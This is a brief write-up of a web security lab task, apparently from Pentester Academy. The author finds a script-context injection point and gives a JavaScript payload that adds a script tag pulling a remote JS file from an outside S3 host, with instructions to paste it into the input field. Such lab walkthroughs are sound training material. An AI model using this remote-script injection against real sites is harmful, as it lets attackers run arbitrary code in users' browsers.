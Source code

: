 ## Task 10 <small>[[Try Now]](http://pentesteracademylab.appspot.com/lab/webapp/jfp/10)</small>

Objectives:

1. Include the JS file available at http://demofilespa.s3.amazonaws.com/jfptest.js into this page

Luckily we have a remote script here, and we just need to include it in the DOM.

On checking I found that the value of input tag is being rendered in the `script` tag

![](https://i.imgur.com/sqRmmWf.png)

Since you are already in script, you can not open new html tag. So what I thought of is, why not create a script tag using Document.createElement and append it to the body.

And it worked!!!

```js
const script = document.createElement("script");
script.src = "http://demofilespa.s3.amazonaws.com/jfptest.js";
document.body.appendChild(script);
```

For POC, paste the above content in the input field and hit enter
